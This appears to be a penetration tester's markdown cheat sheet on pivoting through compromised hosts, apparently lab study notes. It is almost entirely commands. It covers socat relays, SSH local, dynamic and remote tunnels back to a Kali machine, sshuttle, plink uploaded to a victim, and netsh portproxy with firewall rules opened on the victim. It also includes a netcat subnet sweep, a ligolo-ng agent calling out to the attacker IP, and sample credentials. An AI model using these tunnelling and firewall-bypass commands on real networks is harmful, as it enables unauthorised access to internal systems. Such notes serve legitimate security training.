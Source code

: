 # Linux Port Forwarding
- look for subnet/dmz
- ``` ip route ```  | ``` ip addr ```
## Socat
- ``` socat TCP-LISTEN:2222,fork TCP:{ip}:22 ```

# SSH tunneling
  
## Local port fw 
- use 2 jump pad and go to target
- useful search port without nmap: ``` for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done ```
- kali -> victim 1 -> victim 2(10.4.xxx) -> victim3(172.16.xxx)
1. initate ssh tunneling in victim 1 ``` ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215 ``` (No shell & )
2. check service if on victim 1``` ss -ntplu ```
 
## Dynamic port fw
- Enable proxychains in kali for more comfortability on ssh tun
1. ``` nano /etc/proxychains4.conf ``` with ``` socks5 {ip of ssh tun entrance} {port of ssh tun entrance} ```
2. run in victim ``` ssh -N -D 0.0.0.0:9999 database_admin@10.4.210.215 ``` 

## REMOTE local port fw
- prob cant go victim 3 with this method but can cure the problem of inbound firewall rule
- **Care** if connected 127.0.0.1/0.0.0.0 will become victim 1 && the the port will be used
1. host ssh server in kali: ``` sudo systemctl start ssh ``` (check: ``` sudo ss -ntplu ```)
2. run remote ssh fw in victim 1``` ssh -N -R 127.0.0.1:{port to be used in kali to connect this}:{victim2 ip}:5432 kali@{kali_ip} ```


## REMOTE dynamic port fw
- run this in victim 1 ``` ssh -N -R 9998 kali@192.168.118.4 ```
- edit proxychains conf
- need to use proxychains as above in kali to run commands
- **care** about

## sshuttle
- need root & py3
1. run simple port forwarding in victim 1 : ``` socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22 ```
2. ``` sshuttle -r database_admin@{victim 1 ip}:{victim 1} 10.4.50.0/24 172.16.50.0/24 {subnets}``` 
- works like vpn and setup 
- after success just hold there and keep running | sometimes may not receive much output

# Window Tool
## ssh.exe 
- Low probability have
- using cmd(not pwsh) to see ssh exist or not ``` where ssh ```
1. reverse REMOTE dynamic port ``` ssh -N -R 9998 kali@192.168.118.4 ``` (same as above)
- can use other ways too

## Plink (or Putty)
- Mid Prob
- Allow RDP connection for visual
- If blocked inbound from external and allow self fuck port then can use this way to start a REMOTE local port fw -> use rdp account u found to login thru this port

- Host apache / other python 80 web server to transfer
- Pull plink.exe (inside kali machine library @1.md) to victim
1. run in victim: ``` C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:{kali_port}:127.0.0.1:{to be binded port in victim} {kali ip} ```
2. kali: ``` xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833 ```

## Netsh 
- Requires ADMIN ROOT & CMD
- High Prob (since its network shell e.g. builtin firewal config tool is this)
  
### Simple forwarding
1. open 2222 on victim 1 to connect to victim 2 port 22``` netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.189.64 connectport=22 connectaddress=10.4.189.215 ``` (wont have response so need check with ``` netstat -anp TCP | find "2222" ``` OR ``` netsh interface portproxy show all ```)
  
### If filtered packet 
- Open firewall: ``` netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow ```

#### Clean up
- remove firewall rule ``` netsh advfirewall firewall delete rule name="port_forward_ssh_2222" ```
- remove port fwing ``` netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64 ```

#  ligolo-ng
- https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2
- https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5 
## Proxy (Kali) Setup
1. ``` 
    # Adds a new tun interface to our machine.
    sudo ip tuntap add user kali mode tun ligolo

    # Enables the new interface.
    sudo ip link set ligolo up
    ```
2. ```
    # With the -selfcert flag the tool dynamically 
    # generates self-signed certificates.

    ./proxy -selfcert
    ```
3. (After agent connected): ``` >>session >>start ```
   https://www.calculator.net/ip-subnet-calculator.html?cclass=any&csubnet=24&cip=172.16.184.254&ctype=ipv4&x=Calculate

4.  ```
    sudo ip route add 172.16.5.0/24 dev ligolo
    ```
## Agent (Victim)
1. ```
    # The IP will be the IP of our Kali VM/attacking machine.
    # The -ignore-cert ignores certificate validation. 
    # This means we won't have any issues with our self-signed certs.

    ./agent -connect 10.10.14.213:11601 -ignore-cert
    ```
